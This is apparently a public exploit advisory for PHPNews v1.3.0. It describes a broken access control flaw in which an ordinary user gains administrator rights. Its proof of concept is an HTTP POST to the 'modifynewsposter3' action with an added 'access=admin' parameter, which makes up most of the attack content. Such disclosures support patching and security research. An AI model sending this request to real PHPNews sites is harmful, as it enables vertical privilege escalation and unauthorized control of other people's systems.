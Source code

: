 # Exploit Title: PHPNews v1.3.0 - Broken Object Property Level Authorization(BOPLA)
## Date: 1/4/2024
## Vendor Homepage: https://sourceforge.net/projects/newsphp/files/PHPNews%201._/PHPNews%201.3.0/phpnews_1-3-0.zip/download
## Tested on: Debian Linux, Apache, Mysql
## Vendor: PHPNews
## Version: v1.3.0
## Exploit Description:
## PHPNews v1.3.0 suffers from BOPLA - Broken Access Control Vulnerability allowing attackers to change his access type to admin(vertical privilege escalation).

## ---------------------------------POC-----------------------------
```
POST /index.php?action=modifynewsposter3 HTTP/1.1
...
id=2&newusername=user1&username=user1&password=user1test&password2=user1test&email=user1%40test.com&language=en_GB&access=admin(ADD THIS)
```